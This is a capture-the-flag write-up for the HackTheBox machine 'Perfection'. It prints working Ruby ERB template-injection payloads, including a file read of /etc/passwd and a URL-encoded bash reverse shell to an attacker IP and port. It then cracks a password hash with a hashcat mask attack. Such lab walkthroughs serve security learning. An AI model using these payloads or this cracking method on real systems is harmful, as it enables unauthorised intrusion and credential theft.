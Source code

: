 # Perfection
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a25ccf1b-8041-48e5-9d09-020a945528ef)


## Lessons Learned:
- Exploiting WEBrick 1.7.0
- ERB and reverse shell using Ruby Code Execution.
- Cracking hash using hashcat (based on password format).

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.253 --min-rate 1000                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 20:39 PDT
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

1. Based from the nmap results above, the machine runs a web application at port 80 and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa0e65bb-d7f4-4cef-ac2a-6f97fb41f177)


2. Scrolling down to the footer section, we identified the web server used is **WEBrick** which is a RUBY library.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/deb7b11b-a64a-47b2-a6b1-44b2819fb424)


3. Searching on the internet about vulns found in **WEBrick 1.7.0** resulting to none.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/29519086-e07e-46de-aae0-af2cfb55c438)


4. Scanning for subdomain and directories also resulting to none. However our interest should be at the **weight grade calculation** feature.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e3e3123-8c34-4a6d-995e-0ecffda31a1c)


5. After sent normal input, seems it just calculate our grades normally. Nothing special at client-side.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2f3a453e-a418-47a1-90b7-9cff9ec31e83)


6. Tried to execute client-side attack, the webapp reflects us **Malicious Input Blocked**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/26e43bd2-e5a9-4a3a-8cf6-8e90ffccc596)


7. Let's use repeater for further testing.
8. The reflect message is caused because I input the malicious script/code at the **category** column.
9. This time I tried to send `;id ` but encode it with URL.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48782621-d8df-40c9-bce7-ecac7e8ee39c)


10. It's still blocked.
11. Let's try to send non-malicious URL encoded newline (\n) to test whether it executes encoded URL.

> Sending %0a

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a26e2d7d-7293-4982-866c-2a7258db9e99)


12. It executed, it's a finding then.
13. Great! Now our interest focused on finding the correct ruby command injection or SSTI payloads.
14. Long story short, found a repo which lists all the ruby code execution payloads.

#### NOTES:

```
I dropped all the useful links at the bottom of this MD file.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48adb320-33a2-449f-8675-753f5c0ee33c)

 
15. Nice, let's use the **read file** payload and encode it in URL format.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10119366-43a3-4657-8968-73a25330e3a1)


> pwn%0a<%25%3d+File.open('/etc/passwd').read+%25>

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9c88067-33a6-4ddf-bb80-ee4ee3dee672)



#### NOTES:

```
%0a is needed, because it acts as a delimiter.
```

16. Amazing! Let's try to do reverse shell so it's easier for us to get the user flag.
17. This time let's use the system() code execution payload.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85217040-bdf2-46d3-8b8f-ba80c927bbdb)


```txt
Bash Reverse Shell Payload:
bash -i >& /dev/tcp/10.10.14.24/1337 0>&1

Wrapped it with Ruby Code Execution Payload:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

URL ENCODE IT:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

FULL PAYLOAD:
pwn%0a<%25%3d+system("bash+-c+'exec+bash+-i+>%26+/dev/tcp/10.10.14.24/1337+0>%261'")+%25>
```

18. All we need to do now is set a listener on port 1337 then send the payload using repeater.

> RESULT - Got shell as Susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a38add66-1558-4a42-a107-6e53a39c4389)


> GETTING THE USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2fdd20de-cc5b-4577-a0e6-7cd3d12966f3)


## USER FLAG

```
69adddfe701657e656b754bc7b3801d5
```

19. Noticed there is a directory named **Migration**, inside it there's a DB file.
20. Let's exfiltrate it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/42b76616-2e24-4ece-be1c-57796d68e866)


21. In linux we can open it using **DB Browser**.
22. Found one table named **users**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/45d1b888-4f6f-472b-8d28-5b89ee6da68f)


> Found few creds inside it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7678f31-8e03-4568-b1e6-e25ad421ce93)


23. The simplest privesc is to crack the susan password's hash. However **john** and **hashcat** failed to crack it.
24. So I dropped linpeas to enumerate potential vuln that could lead to privesc.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d4734e0-37fe-4866-bb8c-7024ff50e240)


25. Interesting, Susan seems not part of any group listed.
26. After checking all the results, finally found what seems to be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1342053d-ac7f-4121-8814-9c3726b1af73)

> Inside /var/mail/susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0aac48f5-7ee1-4f83-891a-35f963b7591f)


27. GREAT! it's indeed our interest now.
28. Since it shows the password pattern, then we can use hashcat to helps us crack it.

```
The password format:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

9 integers between 1 - 1.000.000.000 --> 2 - 999.999.999

RESULT:
susan_nasus_?d?d?d?d?d?d?d?d?d
```

29. Let's use hashcat.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/340119a0-5482-4896-b085-923dbcd8aebd)


30. Since it's identified as SHA-256 we can use **-m 1400**.

```
COMMAND:
hashcat -m 1400 susan_hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

-m --> mode
-a --> aggresiveness.
```

> RESULT --> susan_nasus_413759210

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a83d3f4e-d997-43db-9483-89e2988ad5c9)


31. We are logged in as susan!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d15beca-a460-4d68-9d8d-f92007759a46)


> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7408524f-5211-4313-be86-c15d92aecaa2)


## ROOT FLAG

```
aa7afaa82e281910a726fd7ba1e0969a
```

## IMPORTANT LINKS

```
https://security.snyk.io/package/rubygems/webrick
https://portswigger.net/kb/issues/00100f00_ruby-code-injection
https://www.stackhawk.com/blog/command-injection-ruby/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
```
